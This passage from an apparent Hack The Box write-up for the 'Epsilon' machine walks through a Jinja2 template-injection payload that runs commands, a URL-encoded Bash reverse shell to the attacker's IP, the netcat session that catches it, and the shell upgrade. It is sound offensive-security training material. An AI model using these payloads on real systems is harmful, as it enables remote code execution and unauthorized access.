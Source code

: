 [![image-20220309151534646](https://0xdfimages.gitlab.io/img/image-20220309151534646.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20220309151534646.png)

I recently went more in depth looking at [SSTI in Bolt](/2022/02/19/htb-
bolt.html#ssti) (as well as a Beyond Root
[video](https://www.youtube.com/watch?v=7o1J8vHdlYc) looking at how various
payloads work). For Epsilon, I’ll use:

    
    
    {{ namespace.__init__.__globals__.os.popen('id').read() }}
    

It works nicely as well:

[![image-20220309151753900](https://0xdfimages.gitlab.io/img/image-20220309151753900.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20220309151753900.png)

#### Shell

I’ll update the payload to:

    
    
    costume={{ namespace.__init__.__globals__.os.popen('bash -c "bash -i >%26 /dev/tcp/10.10.14.8/443 0>%261"').read() }}&q=1&addr=test
    

I’ll need to URL encode the `&` character of the POST request will treat it as
a break and a new parameter. I’ll use a Bash reverse shell, with `bash -c ''`
to make sure it’s running in the Bash context (see the end of my deep dive
[video](https://www.youtube.com/watch?v=OjkVep2EIlw) on this reverse shell for
details).

On submitting in Repeater, it hangs. At my listening `nc`, there’s a shell:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.134 38950
    bash: cannot set terminal process group (949): Inappropriate ioctl for device
    bash: no job control in this shell
    tom@epsilon:/var/www/app$ 
    

I’ll upgrade my shell:

    
    
    tom@epsilon:/var/www/app$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, file is /dev/null
    tom@epsilon:/var/www/app$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo;fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    tom@epsilon:/var/www/app$
    